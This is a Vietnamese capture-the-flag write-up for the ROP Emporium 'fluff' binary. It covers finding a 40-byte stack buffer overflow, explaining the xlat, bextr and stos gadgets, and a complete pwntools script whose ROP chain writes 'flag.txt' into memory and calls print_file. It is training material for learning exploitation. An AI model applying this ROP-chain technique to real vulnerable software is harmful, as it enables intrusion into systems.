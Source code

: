 **1. Tìm lỗi**

Chạy thử chương trình ta thấy:

![run.png](photo/run.png)

Chương trình cho phép chúng ta nhập vào 1 chuỗi rồi kết thúc ngay sau đó

Dùng lệnh checksec để kiểm tra

![checksec.png](photo/checksec.png)

Ta thấy canary đang ở trạng thái disabled nên có thể khai thác qua lỗ hổng bof

Dùng lệnh file để kiểm tra:

![file.png](photo/file.png)

Ta thấy là file elf64 bit

Ta có mã assembly hàm main như sau:

![main.png](photo/main.png)

Ở hàm main chỉ thực hiện gọi hàm pwnme, ta có hàm pwnme như sau:

![pwnme.png](photo/pwnme.png)

Ta thấy ở hàm pwnme có khoảng cách từ biến đển ret là 0x20 + 0x8 = 40 nhưng cho nhập 0x200 = 512 byte -> Có lỗi bof

Ta có hàm usefulFunction:

![use.png](photo/use.png)

Ở hàm này chỉ gọi hàm print_file với tham số được truyền vào, xét hàm print_file ta có:

![print_file.png](photo/print_file.png)

Ở hàm này khi truyền tên file vào thanh ghi rdi thì chương trình sẽ đọc và ghi nội dụng của tệp ra. Chúng ta có thể chèn vào chuỗi flag.txt để lấy giá trị flag

Để ghi vào rdi thì trước đó phải pop rdi ra

![pop_rdi.png](photo/pop_rdi.png)

Ta thấy địa chỉ 0x00000000004006a3 đã có lệnh pop rdi

Ngoài ra còn hàm questionableGadgets:

![ques.png](photo/ques.png)

Theo tìm hiểu:
 - xlat: là một lệnh assembly x86 được sử dụng để thực hiện việc chuyển đổi các giá trị trong bảng chữ cái theo bảng mã ASCII hoặc EBCDIC. Ở đây xlat sẽ chuyển đổi giá trị tại địa chỉ ds:[rbx] trong bảng chữ cái và lưu trữ nó trong thanh ghi AL.

 - bextr: là một lệnh xử lý bit trong CPU Intel x86_64, được sử dụng để lấy một số bit liên tiếp từ một thanh ghi và lưu chúng vào một vị trí mới trong một thanh ghi khác. Ở đây bextr rbx,rcx,rdx, nó có ý nghĩa là lấy một số bit liên tiếp từ thanh ghi rcx, bắt đầu từ bit ở vị trí rdx và lưu trữ chúng vào thanh ghi rbx.

 - stos: là một instruction dùng để lưu trữ một byte (hoặc một từ hoặc một double word) từ thanh ghi AL (hoặc thanh ghi AX hoặc thanh ghi EAX) vào vị trí được chỉ định bởi thanh ghi RDI trong bộ nhớ. Đồng thời, nó cũng có thể tăng hoặc giảm địa chỉ được chỉ định bởi thanh ghi RDI. Ở đây stos BYTE PTR es:[rdi],al được sử dụng để lưu trữ giá trị của thanh ghi AL vào địa chỉ được chỉ định bởi thanh ghi RDI trong bộ nhớ và tăng giá trị của thanh ghi RDI lên đúng 1 byte.

**2. Ý tưởng**

Để ghi chuỗi flag.txt vào thanh ghi rdi thì chúng ta sử dụng stos với yêu cầu chúng ta kiểm soát được flag nên xlat được sử dụng tiếp theo. Nhưng xlatb sử dụng nội dung trong rbx nên bextr cũng được sử dụng

Ở trước bextr có câu lệnh add rcx, 0x3ef2 nên khi thực hiện phải trừ 0x3ef2

Thứ tự payload:
 - 40 byte tràn đến ret
 - Truyền ký tự flag.txt vào địa chỉ trống
 - Địa chỉ lệnh pop rdi
 - Đưa địa chỉ chứa chuỗi flag.txt mới thêm
 - địa chỉ lệnh call print_file
  
**3. Viết script**

Tìm địa chỉ trống để lưu chuỗi

![vmmap.png](photo/vmmap.png)

Ta thấy địa chỉ 0x601030 còn trống nên có thể ghi vào

Ta có script như sau:

```
from pwn import *

elf = ELF('./fluff')
r = process('./fluff')

pop_rdi = 0x00000000004006a3
rw_section = 0x601030
xlat = 0x0000000000400628
bextr = 0x000000000040062a
stos = 0x0000000000400639
sub = 0x3ef2
print_file = 0x0000000000400620
flag = b"flag.txt"
char = []

#Đổi chuỗi flag về hex
for i in flag:
    addr = hex(read('fluff').find(i) + elf.address)
    #print(addr)
    char.append(addr)
    #print(char)

rax = 0xb
payload = b'a'*40

#Ghi từng hex của char vào địa chỉ trống
for i, char in enumerate(char):
    if (i != 0):
        rax = flag[i-1]
    payload += p64(bextr) #pop rdx, pop rcx, add rcx 0x3ef2, bextr
    payload += p64(0x4000) 
    payload += p64(int(char, 16) - rax - 0x3ef2)
    payload += p64(xlat)
    payload += p64(pop_rdi)
    payload += p64(rw_section + i)
    payload += p64(stos)

payload += p64(pop_rdi) + p64(rw_section)
payload += p64(print_file)

r.sendafter('> ', payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)
